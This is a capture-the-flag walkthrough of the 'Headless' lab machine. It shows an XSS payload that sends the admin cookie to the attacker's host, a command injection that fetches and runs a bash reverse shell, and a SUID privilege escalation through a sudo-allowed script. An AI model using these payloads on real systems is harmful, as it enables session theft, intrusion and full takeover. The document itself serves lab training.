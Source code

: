 # Headless

#htb #xss #easy #nmap #privesc #rce

>David-Andrei Popa (contact@popadavid.ro)

# Solution

## User

Firstly, we scan the given IP using nmap.

```bash
nmap -sV -Pn 10.10.11.8
```

From the output of nmap, we can see that there are 2 services that are currently running on the machine.

```nmap
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-04 13:16 EDT
Nmap scan report for 10.10.11.8
Host is up (0.052s latency).
Not shown: 983 closed tcp ports (conn-refused)
PORT      STATE    SERVICE        VERSION
7/tcp     filtered echo
22/tcp    open     ssh            OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
1052/tcp  filtered ddt
1062/tcp  filtered veracity
1434/tcp  filtered ms-sql-m
3006/tcp  filtered deslogind
3260/tcp  filtered iscsi
3261/tcp  filtered winshadow
3371/tcp  filtered satvid-datalnk
5000/tcp  open     upnp?
5405/tcp  filtered pcduo
5718/tcp  filtered dpm
7921/tcp  filtered unknown
9000/tcp  filtered cslistener
9575/tcp  filtered unknown
9929/tcp  filtered nping-echo
50002/tcp filtered iiimsf
```

By navigating to `http://10.10.11.8:5000`, we can see that the website loads a cookie `is_admin`, which seems to check whether or not the user could access `/dashboard` (obtained from gobuster).

After going to `/support` and testing basic payloads, we observe that the webserver checks for XSS. We can bypass those checks by injecting the XSS payload in the User-Agent header.

Before injecting the payload, we start up a python webserver to get the admin cookie.

```bash
python -m http.server 9000
```

After starting the python webserver, we inject the XSS payload into the User-Agent. You can find more payloads and information [here](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting).

```js
<img src=x onerror=fetch("http://10.10.14.230:9000"+document.cookie);>
```

We obtain the admin cookie in the request logs of the python webserver.

Now we can access `/dashboard` successfully.

By analyzing the `POST` request that is being sent from `/dashboard`, we can see the `date` field in the body, which is vulnerable to command injection.

Using a classic remote shell payload, we can start up a remote connection to the machine using a bash shell.

```bash
#!/bin/bash
/bin/bash -c 'exec bash -i >& /dev/tcp/10.10.14.230/4000 0>&1'
```

We start up our netcat listener on port 4000 and using our python webserver we download the shell on the machine.

```HTTP
Request body

date=;curl "http://10.10.14.230:4000/shell.sh"|bash
```

Upon getting a reverse shell, we can use `pwd` to localize the current working directory. Thus, by navigating to the user's folder, we get the `user.txt` file.

## Root

At this point we could upgrade our shell if we want to. I decided to leave it as it is and proceed to the next goal.

By running `sudo -l`, we find out that our user can run the `/usr/bin/syscheck` binary with root privileges.

Upon inspecting the `/usr/bin/syscheck` binary, we see that it looks for a specific file in the local working directory named `initdb.sh`.

By creating the `initdb.sh` file in the local working directory, we can modify the permissions of `/bin/bash`.

```bash
echo "chmod u+s /bin/bash" > initdb.sh
chmod +x ./initdb.sh
```

Now if we try to run `sudo /usr/bin/syscheck`, our file will be executed, thus changing the permissions of `/bin/bash`. Unlocking the root shell, we can execute `/bin/bash -p` and gain root privileges.

By navigating to `/root`, we can obtain the `root.txt` file.
